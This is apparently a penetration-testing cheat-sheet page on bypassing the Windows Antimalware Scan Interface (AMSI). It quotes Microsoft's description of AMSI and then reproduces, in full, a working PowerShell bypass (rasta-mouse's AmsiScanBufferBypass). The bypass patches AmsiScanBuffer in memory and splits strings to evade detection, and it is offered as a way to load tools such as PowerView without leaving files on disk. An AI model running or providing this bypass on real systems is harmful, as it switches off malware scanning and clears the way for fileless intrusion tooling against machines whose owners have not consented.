

# Antimalware Scan Interface (AMSI)
Source: [Antimalware Scan Interface (AMSI)](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)

When trying to invoke expression and load, for example, `PowerView.ps1` directly from the internet in order to not leave stuff on the disk you'll most properly run in to being blocked due to AMSI. This can be bypassed by utilizing rasta-mouses amsi-bypass which patches the memory to allow execution of suspicious commands.

## Description AMSI
```text
The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard
that allows your applications and services to integrate with any antimalware
product that's present on a machine. AMSI provides enhanced malware protection
for your end-users and their data, applications, and workloads.

AMSI is agnostic of antimalware vendor; it's designed to allow for the most
common malware scanning and protection techniques provided by today's
antimalware products that can be integrated into applications. It supports a
calling structure allowing for file and memory or stream scanning, content
source URL/IP reputation checks, and other techniques.

AMSI also supports the notion of a session so that antimalware vendors can
correlate different scan requests. For instance, the different fragments of a
malicious payload can be associated to reach a more informed decision, which
would be much harder to reach just by looking at those fragments in isolation
```

# Example


# AMSI Bypass (rasta-mouse)
Source: [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
